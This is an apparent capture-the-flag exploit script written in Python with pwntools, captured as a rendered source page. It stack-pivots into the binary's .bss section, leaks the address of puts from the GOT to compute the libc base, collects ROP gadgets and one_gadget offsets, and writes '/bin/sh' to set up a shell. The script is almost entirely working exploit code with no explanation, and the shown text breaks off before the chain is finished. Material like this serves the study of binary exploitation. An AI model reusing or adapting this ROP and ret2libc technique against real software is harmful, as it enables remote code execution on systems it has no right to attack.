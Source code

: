 ```plain
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

add_idx = 1
delete_idx = 2
show_idx = 4
edit_idx = 3

def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss = elf.bss()
li('bss = '+hex(bss))


bss4=bss+0x400
bss6=bss+0x600
read=0x401216
main=0x4011F4
rdi=0x4012c3
rsi_r15=0x4012c1
ret=0x40101a
sys=0x401090
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
ru('who r u?\n')
pl=b'a'*0x20+p64(bss4)+p64(read)
s(pl)
ru('life?\n')
s(b'\n')
pl=b'a'*0x20+p64(bss4+0x20)+p64(read)
s(pl)
ru('life?\n')
sl(b'/bin/sh\x00')

'''
pl=p64(bss4+0x30)+p64(ret)+p64(rdi)+p64(0x4040a0)+p64(sys)
dbg()
s(pl)
'''

pl=p64(bss4+0x30)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
s(pl)

libc_base=l64()-libc.sym['puts']
li(hex(libc_base))
pop_rdi = libc_base + libc.search(asm('pop rdi;ret;')).__next__()
pop_rsi = libc_base + libc.search(asm('pop rsi;ret;')).__next__()
pop_rdx = libc_base + libc.search(asm('pop rdx;ret;')).__next__()
pop_r12 = libc_base + libc.search(asm('pop r12;ret;')).__next__()
ogs = [0xe3afe,0xe3b01,0xe3b04]
og = libc_base + ogs[0]

ru('who r u?\n')
pl=b'a'*0x20+p64(bss6)+p64(read)
s(pl)
ru('life?\n')
s(b'\n')
pl=b'a'*0x20+p64(bss6+0x20)+p64(read)
s(pl)
```